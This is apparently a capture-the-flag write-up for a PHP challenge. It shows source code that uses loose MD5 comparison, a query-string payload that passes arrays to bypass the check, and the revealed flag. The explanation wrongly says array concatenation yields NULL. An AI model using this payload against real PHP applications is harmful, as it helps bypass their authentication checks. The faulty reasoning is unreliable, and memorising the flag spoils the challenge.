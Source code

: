 # Webrypto [200 points] (265 solves)
```php
<?php
include('flag.php');
highlight_file(__FILE__);

// Check if parameters 'tom' and 'jerry' are not equal
if ($_GET['tom'] != $_GET['jerry']) {
    echo "<br>Parameter 1 Met!<br>";

        if (md5('ACECTF' . $_GET['tom']) == md5('ACECTF' . $_GET['jerry'])) {
        echo $FLAG;  // If the condition is true, print the flag
    }
}
?>
```
payload: `?tom[]=1&jerry[]=2` since `$_GET['tom'] != $_GET['jerry']` will be true because [1] is not equal to [2]; `md5('ACECTF' . $_GET['tom'])` will be NULL because you can't concatenate a string with an array; `md5('ACECTF' . $_GET['jerry'])` will also be NULL; `NULL == NULL` is true

flag: `ACECTF{70m_4nd_j3rry_4r3_4ll135}`